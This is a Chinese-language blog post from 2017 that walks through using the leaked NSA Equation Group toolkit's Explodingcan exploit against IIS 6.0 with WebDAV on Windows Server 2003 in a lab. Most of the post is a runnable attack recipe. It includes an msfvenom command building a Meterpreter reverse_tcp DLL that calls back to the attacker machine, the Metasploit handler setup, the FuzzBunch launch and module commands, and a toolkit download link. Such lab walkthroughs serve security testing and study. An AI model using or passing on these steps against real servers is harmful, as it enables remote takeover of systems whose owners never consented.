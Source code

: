 ```yaml
---
title: NSA工具包验证之IIS6.0漏洞利用
date: 2017-06-15 21:20:05
tags: 网络安全
---
```


### 验证环境：

攻击机1(本次演示IP：172.16.11.2)：windows系统，[安装python2.6.6](https://www.python.org/download/releases/2.6.6/), [pywin32-221.win32-py2.6.exe](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/), xshell, xftp, [下载方程式工具包](https://codeload.github.com/misterch0c/shadowbroker/zip/master)放到C盘，在工具包目录下的windows目录新建文件夹"listeningposts"，并且开放所有端口关闭防火墙，确保内网可以访问之

攻击机2(本次演示IP：172.16.12.2)：kali linux，需要开启ssh服务，详情百度

目标机1(本次演示IP：172.16.12.3)：开放了80端口的Windows Server 2003 R2，IIS6.0，开启了Webdav功能

以上所有IP之间均可以直接访问
<!--more-->
### 验证步骤：

* * *

#### 第一步：生成可执行的恶意dll文件

0x01

首先通过xshell连接到kali linux，打开xshell，在跳出来的窗口点击new(新建)，然后填入kali的IP地址点击确定然后连接，接着依次输入kali的账号与密码即可连接，可能会跳出安全警告，点击接收并保存即可，连接完成得到如图：

![1.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/1.jpg "1.jpg")

0x02

执行命令：
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.12.2 LPORT=5555 -f dll >s.dll
```

在kali根目录下生成s.dll文件，其中LHOST为kali的IP地址，LPORT为一个可任意填写的端口，届时将使目标机执行该dll向172.16.12.2:5555发送shell

0x03

点击xshell如图位置

![3.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3.jpg "3.jpg")

打开本地C盘，并将kali目录下刚刚生成的s.dll复制到本机的C盘根目录下，如图

![4.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/4.jpg "4.jpg")

#### 第二步：配置kali使得kali处于监听状态

0x01

依次输入命令

```
msfconsole
use exploit/multi/handler
set lhost 172.16.12.2
set lport 5555
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```
看到如图即说明配置成功

![2.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/2.jpg "2.jpg")

这时就可以将xshell最小化，等后边再用

#### 第三步：使用方程式工具包进行攻击

0x01

将方程式工具包下的windows文件夹重命名为win，然后拷贝到C盘根目录下，并在该文件夹下新建一个名为"listeningposts"的文件夹，如图，不然运行会报错

![5.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/5.jpg "5.jpg")

0x02

打开命令提示符，输入
```
C:\win\fb.py
```
然后依次输入目标IP，本地IP，是否重定向，日志存放位置，新建工程，给该工程命名，最后确认，如图

![1.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/iis6/1.jpg "1.jpg")

最后敲击回车

0x03

显示出`fb >`之后输入命令
```
use Explodingcan
```

使用该工具，之后除了下图所示位置需要修改，其他都保持默认直接敲击回车即可

![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/iis6/2.jpg "2.jpg")

（选择系统，CallbackIP、CallbackPort等，端口可以任意设置）

![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/iis6/3.jpg "3.jpg")

之后都保存默认配置，攻击成功如图

![4.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/iis6/4.jpg "4.jpg")